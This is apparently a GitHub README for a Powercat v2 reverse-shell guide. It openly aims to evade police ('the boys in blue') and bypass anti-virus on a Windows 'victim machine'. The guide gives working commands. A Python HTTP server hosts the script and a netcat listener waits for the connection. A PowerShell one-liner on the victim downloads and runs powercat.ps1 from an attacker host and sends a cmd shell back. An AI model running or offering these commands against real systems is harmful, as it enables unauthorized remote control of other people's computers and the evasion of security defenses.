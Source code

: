 <p align="left"><img src="https://1.bp.blogspot.com/-9XD4hpjvMFU/X1rLweYaGcI/AAAAAAAATws/ufmAagnmV9o2k0EPUmis9r6M-B25wOYmACNcBGAsYHQ/s1600/HTTP-revshell_5_logo.png" width="50%" height="50%"></p>

# Powercat-v2.0 Reverseshell Guide
A guide to evade the boys in blue when acquiring a reverse shell on Windows using Powercat v2 

## About this Guide
This guide allows you to acquire a reverse shell while bypassing anti-virus software on a Windows computer using a single Powershell script.

Powercat is essentially the powershell version of netcat. It is a network utility for performing low-privilege network communication operations that makes use of native PowerShell version 2 components. 

# Usage
Clone this repository and change the working directory
```
git clone https://github.com/rexpository/reverseshell-powercat-v2.git
cd reverseshell-powercat-v2
```

Start a Python HTTP server on a port of your choice (e.g., 70) for the victim to access the script
```
python -m SimpleHTTPServer 70
```

Start a Netcat listener on a port of your choice (e.g., 5555) for obtaining a reverse connection
```
sudo apt-get install netcat
nc -lp 5555
```

On your Windows victim machine, run the following Powershell command inside the command prompt (CMD). 
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://YOURIP:70/powercat.ps1');powerrcatt -c YOURIP -p 5555 -e cmd"
```
Note: YOURIP should be your host's local IP address (Linux IP address); make sure to replace ports 70 and 5555 in the command with your own configurations.

You will obtain a reverse shell in the Netcat listener once the command is executed. To check what account type you're logged into, use the command *whoami*. 

<p align="left"><img src="./Demo.png" width="60%" height="60%"></p>
